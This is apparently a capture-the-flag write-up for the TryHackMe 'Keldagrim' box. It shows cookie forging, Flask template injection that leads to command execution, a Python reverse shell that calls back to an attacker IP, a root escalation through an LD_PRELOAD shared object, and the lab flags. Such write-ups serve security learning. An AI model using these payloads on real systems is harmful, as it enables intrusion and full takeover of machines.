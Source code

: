 > Keldagrim

# Nmap

nmap -sC -sV -T4 -Pn -vv -A $IP -oN nmap/initial

```
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Werkzeug httpd 1.0.1 (Python 3.6.9)
| http-cookie-flags: 
|   /: 
|     session: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
|_http-title:  Home page
```

And when we look at the cookie in Chrome Dev Tools, we can find that it is Base64 encoded and on decoding it we got `guest`. So let's encode admin and put it in the cookie. And we are in as admin and got another cookie `sales`. On decoding it we can find that it is the amount value. Let's try to encode a string and encode it as base64 and put in in `sales` cookie and it is reflected as such. I don't know any such exploits to put in the cookie value and nothing worked like SQLi.

So let's move onto research. What is “werkzeug”? 

A WSGI for Python. **REFERENCE:https://palletsprojects.com/p/werkzeug.** Also looking through hacktricjs we get a hint that `Probably if you are playing a CTF a Flask application will be related to SSTI.` And searching for paylods in payloadallthethings we got `{{7*'7'}}` and we got the output `7777777`. So we got Server Side Template Injection.

And we got a payload from Payload All The Things and modified it a bit.

{{"".__class__.__mro__[1].__subclasses__()}}

To exploit the SSTI to run shell commands a payload string will be built:
1. an empty string, {{“”.__class__.mro__}} will return a tuple: `(<class ‘str’>,<class ‘object’>)`
2. The root object class can be selected with `[1]` (selecting second item in python list)
3. A list of object subclasses can be listed with .subclasses().  There are over 400!

And we can find SubProcess.Popen in here. And now let's try to use this popen. Again payloadallthethings gives us a  RCE payload.

{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

And wow!! we got a RCE! Let's try to get a shell! Let's pick a python reverse shell.

`{{config.__class__.__init__.__globals__['os'].popen('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.8.107.21\",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")\'').read()}}`

And we are in as Jed.

# user.txt

```
thm{d55ac4d0a728741d7b8c23b999e73cf3}
```

# Privilege Escalation

sudo -l

```
Matching Defaults entries for jed on keldagrim:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User jed may run the following commands on keldagrim:
    (ALL : ALL) NOPASSWD: /bin/ps
```

And ps doesn't have any exploits in GTFO. And another part is interesting `env_keep+=LD_PRELOAD`

**Reference: https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/**

# Steps

1. cd /tmp && nano shell.c

## shell.c

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

2. gcc -fPIC -shared -o shell.so -nostartfiles shell.c
3. sudo LD_PRELOAD=/tmp/shell.so ps

And we are root!

# root.txt

```
thm{bf2a087f833b58df233c0f24eac3aec5}
```